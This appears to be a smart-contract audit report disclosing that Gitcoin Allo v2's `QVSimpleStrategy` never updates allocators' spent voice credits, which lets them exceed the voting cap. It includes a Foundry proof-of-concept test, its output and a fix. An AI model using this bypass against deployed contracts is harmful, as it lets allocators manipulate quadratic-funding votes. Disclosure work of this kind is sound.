 Energetic Berry Llama

high

# Allocators can allocate as much as they want in `QVSimpleStrategy`
## Summary
There is a maximum limit for every allocator in the `QVSimpleStrategy`, but this limit only applies for each allocation call. Allocator can repetitively allocate voice credits up to maximum limit, and allocate as much as they want.

## Vulnerability Detail
Allocators allocate their `voiceCredits` to a recipient and the corresponding vote count of the recipient is calculated according to these `voiceCredits` in Quadratic Voting strategies.  
Allocators have a maximum limit to allocate which is determined during initialization with `maxVoiceCreditsPerAllocator` variable. Each allocator is tracked with `Allocator` struct.

```solidity
    /// @notice The details of the allocator
    struct Allocator {
        // slot 0
        uint256 voiceCredits;
        // slots [1...n]
        mapping(address => uint256) voiceCreditsCastToRecipient;
        mapping(address => uint256) votesCastToRecipient;
    }
```

`QVSimpleStrategy::_allocate()` function validates if the allocator has enough `voiceCredits` left with the internal `_hasVoiceCreditsLeft()` function.

[https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121)

```solidity
file: QVsimpleStrategy.sol 
   function _allocate(bytes memory _data, address _sender) internal virtual override {
        (address recipientId, uint256 voiceCreditsToAllocate) = abi.decode(_data, (address, uint256));

        // spin up the structs in storage for updating
        Recipient storage recipient = recipients[recipientId];
        Allocator storage allocator = allocators[_sender];

        // check that the sender can allocate votes
        if (!_isValidAllocator(_sender)) revert UNAUTHORIZED();

        // check that the recipient is accepted
        if (!_isAcceptedRecipient(recipientId)) revert RECIPIENT_ERROR(recipientId);

        // check that the recipient has voice credits left to allocate
-->     if (!_hasVoiceCreditsLeft(voiceCreditsToAllocate, allocator.voiceCredits)) revert INVALID(); //@audit allocator.voiceCredits is never updated. It is always 0.

        _qv_allocate(allocator, recipient, recipientId, voiceCreditsToAllocate, _sender);
    }
```

`_allocate()` function passes `voiceCreditsToAllocate` and `allocator.voiceCredits` parameters to the `_hasVoiceCreditsLeft` function. And the `_hasVoiceCreditsLeft` function is below:

[https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L144C1-L151C6](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L144C1-L151C6)

```solidity
    function _hasVoiceCreditsLeft(uint256 _voiceCreditsToAllocate, uint256 _allocatedVoiceCredits)
        internal
        view
        override
        returns (bool)
    {
        return _voiceCreditsToAllocate + _allocatedVoiceCredits <= maxVoiceCreditsPerAllocator;
    }
```

This function checks if the sum of the `_voiceCreditsToAllocate` (credits to be allocated) and `_allocatedVoiceCredits` (already allocated credits) is smaller than the max limit.

The reason for the vulnerability is that the already allocated voice credits are never updated. `allocator.voiceCreditsCastToRecipient` and `allocator.votesCastToRecipient` are updated in the [`QVBaseStrategy::_qv_allocate()`](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-base/QVBaseStrategy.sol#L529C1-L530C69) function but [`allocator.voiceCredits`](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121C59-L121C81) is never updated, and always 0.

## Coded PoC

You can use the protocol's own setup to prove the PoC below.  
\- Copy the code snippet and paste it into the `QVSimpleStrategy.t.sol` test file.  
\- Run it with `forge test --match-test test_allocateAgainAndAgainWithMaxVoiceCredit -vvvv`

```solidity
    //@audit Use the max voice credit and allocate repetitively.
    function test_allocateAgainAndAgainWithMaxVoiceCredit() public {
        address recipientId = __register_accept_recipient();
        address allocator = randomAddress();

        vm.startPrank(pool_manager2());
        // Add the allocator
        qvSimpleStrategy().addAllocator(allocator);
        
        // Start the allocation period
        vm.warp(allocationStartTime + 10);

        // Max voice credit is 100.
        // Create allocation data with max voice credit and another data with max voice credit + 1
        bytes memory allocateDataMaxCredit = __generateAllocation(recipientId, 100);
        bytes memory allocateDataMaxCreditPlus1 = __generateAllocation(recipientId, 101);
        vm.stopPrank();

        vm.startPrank(address(allo()));

        // Allocate with max credit.
        qvSimpleStrategy().allocate(allocateDataMaxCredit, allocator);

        // Allocate with max credit again.
        qvSimpleStrategy().allocate(allocateDataMaxCredit, allocator);

        // One more time :) https://www.youtube.com/watch?v=FGBhQbmPwH8
        qvSimpleStrategy().allocate(allocateDataMaxCredit, allocator);

        // We allocated 3 times with max voice credit.
        // Revert when we try only one time with max voice credit + 1.
        vm.expectRevert(abi.encodeWithSelector(INVALID.selector));
        qvSimpleStrategy().allocate(allocateDataMaxCreditPlus1, allocator);
    }
```

You can see the test results below:

```solidity
Running 1 test for test/foundry/strategies/QVSimpleStrategy.t.sol:QVSimpleStrategyTest
[PASS] test_allocateAgainAndAgainWithMaxVoiceCredit() (gas: 338291)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 18.58ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Impact
Allocators can allocate as much as they want.

## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L121

```solidity
        if (!_hasVoiceCreditsLeft(voiceCreditsToAllocate, allocator.voiceCredits)) revert INVALID();
```

[https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L144C1-L151C6](https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/qv-simple/QVSimpleStrategy.sol#L144C1-L151C6)

```solidity
    function _hasVoiceCreditsLeft(uint256 _voiceCreditsToAllocate, uint256 _allocatedVoiceCredits)
        internal
        view
        override
        returns (bool)
    {
        return _voiceCreditsToAllocate + _allocatedVoiceCredits <= maxVoiceCreditsPerAllocator;
    }
```


## Tool used

Manual Review

## Recommendation
Update the `allocator.voiceCredits` too after allocation.

